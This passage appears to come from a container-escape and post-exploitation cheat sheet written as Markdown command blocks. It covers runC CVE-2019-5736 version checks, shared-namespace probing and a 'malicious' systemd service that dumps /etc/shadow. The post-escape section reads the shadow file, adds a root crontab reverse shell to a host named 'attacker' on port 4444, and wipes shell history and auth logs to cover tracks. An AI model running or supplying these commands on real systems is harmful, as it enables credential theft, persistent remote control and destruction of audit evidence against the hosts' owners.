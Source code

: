 ### 6. Container Runtime Exploits
```bash
# runC exploit (CVE-2019-5736)
# Check runC version
runc --version

# If vulnerable (< 1.0-rc7)
# Overwrite runc binary when exec'd
```

### 7. Shared Namespace Escape
```bash
# Check namespaces
ls -la /proc/self/ns/

# If PID namespace is shared
ps aux | grep -v "PID\|ps aux"

# If network namespace is shared
ip addr show
```

### 8. Systemd Exploit
If systemd is accessible:
```bash
# Create malicious service
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "cat /etc/shadow > /tmp/shadow"
[Install]
WantedBy=multi-user.target' > /tmp/evil.service

# Try to install
systemctl link /tmp/evil.service
systemctl start evil
```

## Post-Exploitation

### Once Escaped
```bash
# Verify escape
hostname
id
cat /etc/shadow

# Persistence
echo "* * * * * root /bin/bash -c 'bash -i >& /dev/tcp/attacker/4444 0>&1'" >> /etc/crontab

# Cover tracks
history -c
echo > /var/log/auth.log
```
